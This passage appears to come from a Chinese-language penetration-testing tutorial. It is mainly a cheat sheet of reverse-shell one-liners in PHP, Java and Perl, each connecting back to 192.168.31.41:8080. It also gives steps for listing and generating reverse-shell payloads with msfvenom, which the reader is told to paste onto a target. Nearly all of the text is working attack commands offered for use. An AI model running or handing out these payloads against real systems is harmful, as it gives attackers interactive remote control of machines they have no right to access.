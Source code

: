 ```
**2.4.2 php 脚本反弹**  

```

```
php -r '$sock=fsockopen("192.168.31.41",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
**2.4.3 Java 脚本反弹**  

```

```
`r = Runtime.getRuntime()``p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.31.41/8080;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])``p.waitFor()`
```

**2.4.4 perl 脚本反弹**

```
perl -e 'use Socket;$i="192.168.31.41";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
**2.5 msfvenom 获取反弹一句话**  

```

学习过程中发现其实强大的MSF框架也为我们提供了生成一句话反弹shell的工具，即msfvenom。绝对的实用，当我们不记得前面说的所有反弹shell的反弹语句时，只要我们有Metasploit,随时我们都可以使用msfvenom -l 来查询生成我们所需要的各类命令行一句话，具体使用方法为各位看官老爷们收集如下。

**2.5.1 查询 payload 具体路径**

我们直接可以使用 msfvenom -l 结合关键字过滤（如cmd/unix/reverse），找出我们需要的各类反弹一句话payload的路径信息。

```
# msfvenom -l payloads 'cmd/unix/reverse'
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t014f984e560232d602.png")

查看以上截图，我们可以看到msfvenom支持生成反弹shell一句话的类型非常丰富，这里几乎是应有尽有，大家可以依据渗透测试对象自行选择使用。

**2.5.2 生成我们我们需要的命令行一句话**

依照前面查找出的命令生成一句话payload路径，我们使用如下的命令生成反弹一句话，然后复制粘贴到靶机上运行即可。

**bash 反弹一句话生成**

```
# root@kali:~# msfvenom -p cmd/unix/reverse_bash lhost=1.1.1.1 lport=12345 R
```

```
**阉割版nc反弹一句话生成**  

```
